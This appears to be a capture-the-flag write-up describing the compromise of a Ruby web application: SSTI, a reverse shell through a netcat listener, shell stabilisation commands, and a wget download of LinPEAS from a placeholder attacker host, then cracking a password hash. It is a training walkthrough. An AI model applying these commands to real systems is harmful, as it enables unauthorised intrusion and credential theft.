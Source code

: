 ### Security Assessment Workflow

1. **Initial Reconnaissance with Nmap**
    
    - Identified an open **web service**.
    
1. **Web Application Analysis**
    
    - Accessed the service and found text input fields that returned user-provided text.
    - Attempted directory fuzzing with Gobuster, but it failed to identify any directories.
    - Observed errors when attempting to inject code, flagged as **malicious input**.
    - Determined that the application was running on **Ruby**.
3. **Server-Side Template Injection (SSTI) Exploitation**
    
    - Translated a server-side template injection (SSTI) exploit into Ruby syntax.
    - Used Burp Suite to test the injection, encoding key characters for URL compliance:
        - For a **new line**: `%0A`
    - Successfully confirmed SSTI exploitation.
4. **Gaining Reverse Shell Access**
    
    - Started a listener on port 9001 using Netcat:
      
        `nc -lvnp 9001`
        
    - Verified available interpreters:
        - `which bash` → `/usr/bin/bash`
        - `which python3` → `/usr/bin/python3`
    - Downloaded a Python 3 reverse shell script from **revshells.com**, URL-encoded it, and executed it.
5. **Interactive Shell Setup**
    
    - Stabilized the shell with the following commands:
    
        `python3 -c 'import pty; pty.spawn("/bin/bash")'   stty raw -echo; fg   export TERM=xterm`  
        
6. **Post-Exploitation Activities**
    
    - Retrieved the `user.txt` flag.
    - Discovered a file containing **credentials**.
    - Identified the file type with the `file` command.
    - Accessed the file using **SQLite3** and retrieved a hash.
7. **Password Cracking Attempts**
    
    - Attempted to crack the hash using **John the Ripper** and **Hashcat**, but both failed.
    - Decided to explore other approaches.
8. **Privilege Escalation**
    
    - Set up a Python HTTP server:
      
        `python3 -m http.server 9090`  
        
    - Used `wget` from the reverse shell to download **LinPEAS**:
      
        `wget http://yourIP:9090/linpeas.sh   chmod +x linpeas.sh`  
        
    - Executed LinPEAS to search for sensitive files, focusing on **MAIL** directories.
9. **Password Recovery and Final Steps**
    
    - Found a password structure hint in mail logs.
    - Combined it with the previously retrieved hash and successfully cracked it using **Hashcat**